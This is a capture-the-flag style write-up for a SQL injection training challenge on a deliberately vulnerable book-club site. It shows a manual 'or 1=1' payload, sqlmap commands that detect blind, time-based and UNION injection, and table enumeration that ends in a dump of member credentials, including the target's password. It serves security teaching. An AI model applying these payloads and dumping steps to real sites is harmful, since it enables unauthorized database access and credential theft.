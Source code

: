# Challenge #1 - Poema Reading club 5

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability You will also have to extract information from the database exploiting the vulnerability
- Find out Ruud password in the database

## Hints

- MySQL

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine if a SQL injection is of type "blind" or "error based"
- How to extract information from a database using SQLMap

## Steps

The vulnerable endpoint is on the recommended books -> view book. The error message points to something wrong on this page.

Target url:
http://1.challenge.sqli.site/view_book.php?id=1

```
"Notice: Undefined index: title in /var/www/challenge.sqli.site/1/view_book.php on line 58"
```

Change the book number with the payload below.

```
9999 or 1=1-- -

http://1.challenge.sqli.site/view_book.php?id=9999%20or%201=1--%20-
```

There is no book with number 9999, as the second part of the payload is 1=1, this will match all books, and so, the page show the first retrieved.

Send the original url to SQLMap.

```
sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql
```

After a few moments SQLMap will return with the follow results.

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3056=3056

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1358 FROM (SELECT(SLEEP(5)))kXNq)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-3956 UNION ALL SELECT CONCAT(0x716b7a7a71,0x536147644551706866424944757659684665686b6649426c6d4144727261734458675553774b694f,0x7176707671),NULL,NULL,NULL,NULL,NULL-- -
```

List all databases.

```
sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql --dbs

[*] information_schema
[*] poema
```

List all tables from poema database.

```
sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema --tables

Database: poema                             
[2 tables]
+--------------+
| books        |
| club_members |
+--------------+
```

Retrieve the table club_members and search for the Ruud password in the database

```
sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema -T club_members --dump

Database: poema                             Table: club_members
[30 entries]
| id | zip   | city             | name     | password    | username                                   |
[...]
| 12 | 73544 | Cerritos         | Ruud     | W000Tw0000t | feugiat@nonsollicitudin.org                |
[...]
```